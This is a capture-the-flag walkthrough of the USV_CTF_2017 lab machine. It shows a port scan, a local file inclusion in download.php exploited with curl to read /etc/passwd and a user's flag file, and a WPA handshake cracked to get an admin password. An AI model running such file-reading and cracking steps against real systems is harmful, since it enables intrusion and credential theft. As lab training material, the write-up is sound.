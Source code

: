 # USV_CTF_2017

Lets find out the Victim machines IP ⬇️IP : 

![Untitled](USV_CTF_2017/Untitled.png)

```
IP : 10.0.2.35
```

## Port Scan Results ⤵️

![Untitled](USV_CTF_2017/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 14:10 IST
Nmap scan report for 10.0.2.35
Host is up (0.00057s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            ProFTPD 1.3.5b
22/tcp    open  ssh            OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 d71072d8d276b21e28110411b4e2984e (RSA)
|   256 b82961bbf18cc464ddf50ea0a22ffdaa (ECDSA)
|_  256 2b7e351042ca082066418880a04f02e6 (ED25519)
80/tcp    open  http           Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
4369/tcp  open  epmd           Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    ejabberd: 34713
5222/tcp  open  jabber         ejabberd (Protocol 1.0)
| xmpp-info: 
|   STARTTLS Failed
|   info: 
|     xmpp: 
|       lang: en
|       server name: localhost
|       version: 1.0
|     errors: 
|       host-unknown
|       host-unknown
|       (timeout)
|     auth_mechanisms: 
|     features: 
|     unknown: 
|     stream_id: 13835454705195693772
|     compression_methods: 
|_    capabilities: 
5269/tcp  open  jabber         ejabberd
| xmpp-info: 
|   Ignores server name
|   info: 
|     xmpp: 
|       version: 1.0
|     capabilities: 
|   pre_tls: 
|     xmpp: 
|     capabilities: 
|     features: 
|       TLS
|   post_tls: 
|     xmpp: 
|_    capabilities: 
5280/tcp  open  ssl/xmpp-bosh?
| ssl-cert: Subject: commonName=ejabberd/organizationName=stl.int
| Not valid before: 2017-10-23T20:50:49
|_Not valid after:  2018-10-23T20:50:49
|_ssl-date: TLS randomness does not represent time
15020/tcp open  http           Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
34713/tcp open  unknown
MAC Address: 08:00:27:1A:A2:58 (Oracle VirtualBox virtual NIC)
Service Info: Host: localhost; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⬇️

![Untitled](USV_CTF_2017/Untitled%202.png)

![Untitled](USV_CTF_2017/Untitled%203.png)

Now let’s try to brute force the password >>

From Source code I got a hex encoded script code after decoding it I got this >>

![Untitled](USV_CTF_2017/Untitled%204.png)

So this code gives me a formula to calculate password ⬇️

**(stringconcat(password+4469)-234562221224)*1988=1079950212331060**

After calculating I got the password =77779673 , Lets use it now —> 

![Untitled](USV_CTF_2017/Untitled%205.png)

This is our `1st flag ➡️ Italy:46202df2ae6c46db8efc0af148370a78`

Now lets enumerate port 15020 >>

while looking into the ssl certificate  I got this next flag ⬇️

![Untitled](USV_CTF_2017/Untitled%206.png)

Our next `2nd flag ➡️ a51f0eda836e4461c3316a2ec9dad743`

Further Enumeration I got this >>>

![Untitled](USV_CTF_2017/Untitled%207.png)

So lets see the source code ➡️

![Untitled](USV_CTF_2017/Untitled%208.png)

Now lets access the download.php file >>>

![Untitled](USV_CTF_2017/Untitled%209.png)

So I see we have LFI but I can’t execute it through web so lets use `curl`.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/etc/passwd" https://10.0.2.35:15020/blog/download.php -k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
kevin:x:1001:1001::/home/kevin:
epmd:x:110:113::/var/run/epmd:/bin/false
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```

Now I got it , let ‘s access the flag.txt from kevin home.

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CTF_2017]
└─$ curl -d "image=/home/kevin/flag.txt" https://10.0.2.35:15020/blog/download.php -k
Croatia: e4d49769b40647eddda2fe3041b9564c
```

Now I downloaded the whole /vault/ directory ➡️

![Untitled](USV_CTF_2017/Untitled%2010.png)

Now lets find the files inside the vault ➡️

```bash
find ./ -type f | grep -v .html
```

![Untitled](USV_CTF_2017/Untitled%2011.png)

Now lets see the cap file ⤵️

![Untitled](USV_CTF_2017/Untitled%2012.png)

Now lets convert this WPA cap file to the format of hccapx hash format so that we can use our rockyou.zip file decode the hash.

![Untitled](USV_CTF_2017/Untitled%2013.png)

![Untitled](USV_CTF_2017/Untitled%2014.png)

so the password is `minion.666` let’s use this to login into the port 15020 with user as `admin`.

![Untitled](USV_CTF_2017/Untitled%2015.png)

Source Code ⬇️

![Untitled](USV_CTF_2017/Untitled%2016.png)

`flag 4 ➡️ Philippines: 551d3350f100afc6fac0e4b48d44d380`